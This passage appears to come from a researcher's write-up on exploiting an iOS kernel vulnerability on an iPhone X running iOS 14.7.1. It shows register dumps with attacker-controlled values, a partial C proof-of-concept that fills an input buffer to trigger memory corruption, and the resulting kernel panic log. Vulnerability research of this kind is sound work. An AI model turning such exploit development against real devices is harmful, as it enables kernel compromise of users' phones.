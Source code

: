 ```
       x15 = 0x0000000000008001
       x16 = 0xffbd7ff007a542d8
       x17 = 0x182effe4cbaa4420
       x18 = 0x0000000000000000
       x19 = 0xffffffe4cbaa4420
       x20 = 0x0000000042424242 // <-- controlled
       x21 = 0xffffffe4ccf02b00
       x22 = 0x0000000043434343 // <-- controlled
       x23 = 0xffffffe4ccf02af4
       x24 = 0xffffffe4ccf02aec
       x25 = 0x0000000041414141 // <-- controlled
       x26 = 0x0000000000000000
       x27 = 0xffffffe81869b648
       x28 = 0xffffffe199dd5608
       x29 = 0xffffffe81869b4b0
       x30 = 0xfffffff0098ef23c
        sp = 0xffffffe81869b470
        pc = 0xfffffff0098ef290
      cpsr = 0x20400204


```

### Better panic, i.e. - NOT a (NULL+offset) dereference[](#better-panic-ie---not-a-nulloffset-dereference)

Now, first thing I would like to do is to get a better panic: i.e a panic that indicates we can corrupt memory in a good way (well, for us). Bad dereference of NULL+offset (with small and limited offset) is just a DOS, which isn’t good enough for us (it’s not a security issue). So, if we’ll just adjust my POC to look as follows:

```
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x10008;
    pArr[3] = 0x424242;
    pArr[8] = 0x434343;
    pArr[89] = 0x444444;


```

We got a better panic (again, my physical iPhone X, iOS 14.7.1, 18G82):

```
  "build" : "iPhone OS 14.7.1 (18G82)",
  "product" : "iPhone10,3",
...
  "panicString" : "panic(cpu 5 caller 0xfffffff02747b2d4): Kernel data abort. at pc 0xfffffff02795c244, lr 0xfffffff02795c1b8 (saved state: 0xffffffe8042f3110)
	  x0: 0xffffffe4cb295da0  x1:  0x0000000000000000  x2:  0xffffffe4cd4d4700  x3:  0x0000000000424242
	  x4: 0xffffffe8042f32c0  x5:  0xffffffe8042f32bc  x6:  0x0000000000000001  x7:  0x0000000000000009
	  x8: 0xffffffec51659980  x9:  0xffffffec5276aa90  x10: 0x0000000000444444  x11: 0xffffffe9049c0000
	  x12: 0x00000000004a0000 x13: 0x00000000ffdfffff  x14: 0xfffffff028729000  x15: 0xaaaaaaaaaaaaaaab
	  x16: 0x0000002000000000 x17: 0xfffffff028729940  x18: 0xfffffff027469000  x19: 0xffffffe4cb295da0
	  x20: 0x0000000000424242 x21: 0xffffffe4cd4d4700  x22: 0x0000000000000000  x23: 0x0000000046662220
```